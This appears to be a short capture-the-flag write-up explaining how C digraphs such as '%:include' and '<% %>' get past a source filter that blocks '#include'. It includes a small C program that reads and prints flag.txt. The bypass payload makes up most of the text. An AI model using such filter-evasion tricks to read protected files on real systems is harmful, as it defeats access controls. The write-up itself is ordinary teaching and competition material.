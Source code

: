 Description 
Sometimes just googling things coold help .

files to upload : challenge.py

# Digraph/Trigraph Bypass Exploit

## Overview

This document explains how to bypass security filters using digraphs and trigraphs in C, allowing restricted operations to be executed.

## How It Works

Some security mechanisms filter dangerous functions (e.g., #include). However, C supports digraphs and trigraphs, which can be used as equivalents to bypass filters.

## For example, instead of:

```#include <stdio.h>```

You can use:

```%:include <stdio.h>```

This method allows executing restricted operations by replacing filtered keywords with their equivalents.

## Exploit Code

```
%:include <stdio.h>
%:include <stdlib.h>

int main() <%
    FILE *file;
    char ch;
    file = fopen("flag.txt", "r");
    printf("Content of flag.txt:");
    while ((ch = fgetc(file)) != EOF) <%
        putchar(ch);
    %>
    fclose(file);
    return 0; %>
```

Note: Add an empty newline at the end before submitting.
